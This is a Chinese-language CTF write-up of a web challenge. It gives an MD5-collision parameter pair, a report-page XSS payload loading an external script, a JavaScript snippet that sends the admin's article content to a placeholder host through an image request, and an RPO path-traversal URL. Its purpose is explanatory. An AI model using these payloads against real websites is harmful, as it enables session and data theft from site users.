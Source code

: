 `param1[]=1&param2[]=2`  
使用了强制字符串转化  
一番谷歌后发现这是去年BKPCTF改的一道题  
payload如下:

```
Param1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

Param2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```
>注：上述两个字符串其md5加密后密文相同。

### Share your mind
这题必须要写一下自己的踩坑经历，首先进去浏览一下页面功能，有个提交bug页面的地方，还有个可以新建文章的地方

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q15.PNG)

最后就是浏览文章(但是只能浏览自己发的文章)，首先想到的就是xss+csrf，新建一个文章引用一段JS然后发给bot，然后ajax请求admin的文章发回来。可是按照这个思路我们发现在新建文章页面我们的`<>`被过滤了，所以我们不能直接构造一个js。猜想能不能在report页面里进行xss，但是发现存在过滤，只能像自己网站的地址发起请求，但是”居然”可以绕过!!!!!!,payload:

`http://39.107.33.96:20000/index.php/report/<script src="xxxxxx.com"></script>`

于是无尽的踩坑之旅开始了，首先是bot返回结果没有cookie，一开始也没在意以为设置了httponly,(后来大致明白bot过程了,先check url-未读,然后add_cookie-已读，这里直接用`<script>`标签其实是在add_cookie之前就返回了所以不带cookie)让他AJAX请求访问admin的文章，代码如下

```
var a = new XMLHttpRequest();
a.open('GET', 'index.php/view/article/1', false);
a.send(null);
b = a.responseText;
(new Image()).src = 'http://xxxxx/?flag=' + escape(b);
```

结果bot返回结果是未登录，然后我就很懵逼，后来给了`hint1:phantomjs/2.1.1`结果这提示给了以后我就以为是日bot，各种谷歌找2.1.1的漏洞，一直到下午出了hint2:漏洞点不在report…推翻了一个下午的努力成果。一直到晚上我才想起来index页面有一个`../static/js/bootstrap.min.js`的相对路径引用

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q12.PNG)

想起来寒假时候看的rpo，关于rpo的原理这里不想赘述了，给个连接

>https://open.appscan.io/article-462.html

这里文章查看页面没有引用DOCTYPE html，所以存在rpo漏洞,新建一个文章,文章title为空(title不为空的时候会添加一个`<h1>`标签导致浏览器解析js的时候报错

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q13.PNG)

内容输入js代码比如`alert(1)`

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q10.PNG)

然后访问这

`http://39.107.33.96:20000/index.php/view/article/635/..%2f..%2f..%2f..%2findex.php`

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/q11.PNG)
